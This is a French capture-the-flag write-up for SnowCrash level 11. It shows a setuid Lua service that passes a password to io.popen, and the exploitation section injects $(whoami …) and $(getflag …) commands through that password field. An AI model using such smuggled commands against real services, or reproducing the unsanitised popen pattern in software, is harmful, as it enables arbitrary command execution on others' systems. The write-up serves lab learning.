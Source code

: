 # LEVEL 11

### Reconnaissance

En se connectant au level11 on trouve un fichier .lua

```
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

On l'a déja vu lors de la reconnaissance de départ avec les connections en attente:
```
[...]
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      3011       12308       -  
[...]
```
**ET** dans la liste des process:
```
[...]
- flag11    1808  0.0  0.0   2892   828 ?        S    10:07   0:00 lua /home/user/level11/level11.lua
[...]
```

Nous n'avons donc pas a lancer le programme etant donné qu'il est déja en ecoute sur le port 5151:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: test
Erf nope..
```

On va essayer de comprendre ce qu'il attend:
```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

On a donc un programme qui attend qu'un utilisateur se connecte et donne un mot de passe
Avec quelques recherche sur les vulnératbilités de ce language, la fonction io.popen est dangereuse.

**OS Command Injection**

*OS command injection flaws (CWE-78) allow attackers to run arbitrary commands on the remote server. Because a command injection vulnerability may lead to compromise of the server hosting the web application, it is often considered a very serious flaw. In Lua, this kind of vulnerability occurs, for example, when a developer uses unvalidated user data to run operating system commands via the os.execute() or io.popen() Lua functions.*
*Source:* https://www.syhunt.com/en/index.php?n=Articles.LuaVulnerabilities 

### Exploitation

On va simplement faire une injection de commande :)
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(whoami > /tmp/whoami)
Erf nope..
level11@SnowCrash:~$ cat /tmp/whoami
flag11
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag > /tmp/flag)
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

